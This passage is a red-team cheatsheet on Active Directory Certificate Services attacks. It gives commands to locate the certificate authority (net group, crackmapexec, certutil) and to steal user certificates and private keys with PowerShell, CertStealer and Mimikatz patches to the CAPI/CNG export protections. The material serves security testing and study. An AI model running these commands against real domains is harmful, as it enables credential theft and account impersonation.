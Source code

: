 # Active Directory Certificate Services
- It is a cheatsheet about the different AD-CS attacks presented by SpecterOps. All the references and resources for the commands and techniques will be listed at the end of the page, for acknowledgments and explains. 
- This was originally a private page that I made public, so it is possible that I have copy/paste some parts from other places and I forgot to credit or modify. If it the case, you can contact me on my Twitter [**@BlWasp_**](https://twitter.com/BlWasp_).
- 
## Is there a CA ?
1. Find the **Cert Publishers** group :
* From UNIX-like systems: `rpc net group members "Cert Publishers" -U "DOMAIN"/"User"%"Password" -S "DomainController"`
* From Windows systems: `net group "Cert Publishers" /domain`
2. Find the PKI : `crackmapexec ldap 'domaincontroller' -d 'domain' -u 'user' -p 'password' -M adcs`
3. Find the CA from Windows : `certutil –config – -ping`
4. Enumerate the HTTP ports on the servers, enumerate the shares to find **CertEnroll**, etc

## Certificate Theft
### Export user certificates with Crypto APIs - THEFT1
- With a session on a machine as a user, it is possible to export his certificate from the Windows Certificate Manager. With an interactive session and if **the private keys are exportable** :
`certmgr.msc -> All Tasks → Export...` to export a password protected .pfx file.

- With PowerShell :
```powershell
$mypwd = ConvertTo-SecureString -String "Password123!" -Force -AsPlainText
Export-PfxCertificate -Cert cert:\currentuser\my\<CERT_THUMBPRINT> -FilePath ./export.pfx -Password $mypwd

#Or with CertStealer
#List all certs
CertStealer.exe --list

#Export a cert in pfx
CertStealer.exe --export pfx <CERT_THUMBPRINT>
```

- If the CAPI or CNG APIs are configured to block the private key export, they can be patched with Mimikatz :
```batch
mimikatz # 
crypto::capi
privilege::debug
crypto::cng

crypto::certificates /export
```
